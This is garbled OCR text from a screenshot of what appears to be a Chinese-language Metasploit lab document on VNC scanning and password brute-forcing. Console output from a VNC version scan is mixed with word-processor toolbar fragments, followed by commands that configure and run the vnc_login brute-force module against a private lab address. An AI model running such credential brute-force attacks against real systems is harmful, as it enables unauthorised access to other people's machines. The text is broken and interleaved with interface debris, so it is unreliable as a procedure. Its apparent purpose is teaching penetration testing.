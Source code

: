 - 192.168.152.130:5900 - VNC server protocol version: [3,4].3 [+]
[*]
192.168.152.130:5900-192.168.152.130:5900- VNC server security types supported: VNC Name
192.168.152.130:5900 - Scanned 1 of 1 hosts (100% complete) :
Auxiliary module execution completed msf5 auxiliary(ae/un/c
QB·
·五号
A RHOS
x白BIU·A· ile:<pa
VNC密码爆破 RPOR
THRE
auxiliary/scanner/vnc/vnc_login msf5 au
rhosts
msf5 auxiliary(scannor/vnc/vnc_login)>set rhosts 192.168.152.130 msf5
au
rhosts192.168.152.130
msf5 auxiliary(scanner/vnc/vnc_login)> show options 192
Module options (auxiliary/scanner/vnc/vnc_login): [+]
192
[*]
Current Setting
[*]
192
BLANK_PASSWORDS
[*]
Aux msf5 au
页码1 页面1／3 节：1／1 设置值：17.8厘米
字数：5／172
拼写检查
文档校对 hongkeketang·.
31.Metasploit: 

口
编辑（E）
秘売模板
31．Metasploit：VNC身份识■．docxX F
+ hongkeketang
开始 插入 页面布局 引用
视图 章节 安全 开发工具 特色功能 Q意找
Eu·83 0论 五号
·AAQ安·E·E·A··
AaBbCcDd
AaBb AaBbC AaBbC
· 文件（F）
动作（A）
格式期
BIU·A·XXA·■·A·A
正文 标■1 标■2 标题3 新样式 文杨助手
文字工具
·田·
STOP
line
ing when a
USER_AS_PASS
false USER_FILE
THRE
VERBOSE
true
of concur
USER
msf5 auxiliary(scanner/vnc/vnc_login)> set threads 10
sn threads 10
ername
msf5 auxiliary(scannex/vnc/vnc_login)>run USER